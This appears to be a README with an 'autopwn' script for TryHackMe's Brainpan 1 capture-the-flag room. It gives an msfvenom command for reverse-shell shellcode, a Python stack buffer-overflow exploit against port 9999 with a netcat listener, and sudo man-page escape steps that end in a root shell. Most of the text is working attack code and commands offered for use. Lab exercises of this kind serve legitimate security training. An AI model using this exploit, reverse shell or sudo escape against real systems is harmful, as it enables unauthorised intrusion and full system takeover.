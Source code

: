 # TryHackMe's "Brainpan 1" room (https://tryhackme.com/room/brainpan).

# First of all create your shellcode for linux with:
(msfvenom -p linux/x86/  shell_reverse_tcp LHOST=VPN IP LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -a x86 -b "\x00")
# Introduce the shellcode in the payload.

```
import socket
import subprocess
import time



print ("Autopwnd TryHackMe's Brainpan 1 room (https://tryhackme.com/room/brainpan).")
print ("Please first of all read README.md(https://github.com/Kalugh/Autopwn-Brainpan-1/blob/main/README.md)")
victim = input("Enter your ip you want to attack:")

ip = victim
port = 9999

#badchars = \x00

#Return Direcction (0x311712f3)

prefix = ""
offset = 0
overflow = "A" * offset
retn = "\xf3\x12\x17\x31"
padding = ""
payload = "\x41" * 520
payload += retn
payload += "\x90" * 30
payload += (ENTER YOUR SHELLCODE HERE)
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")

command = "nc -nvlp 4444" # Chage this if you change the port doing your shellcode introduced on payload
subprocess.call(command, shell=True)
```
# Privilege Escalation
Now you are in the linux machine called "puck(puck@brainpan:/home/puck$)"

You need to run just 3 commands in this order:

1st. python3 -c "import pty; pty.spawn('/bin/bash');"

2nd. sudo /home/anansi/bin/anansi_util manual ls
```
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util manual ls
sudo /home/anansi/bin/anansi_util manual ls
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN)  
```
3rd. Don't press RETURN just execute: !/bin/sh

Just like this:
```
sudo /home/anansi/bin/anansi_util manual ls
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN)!bin/sh
```
After that you should see something like this:
```
sudo /home/anansi/bin/anansi_util manual ls
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/sh
!/bin/sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
```
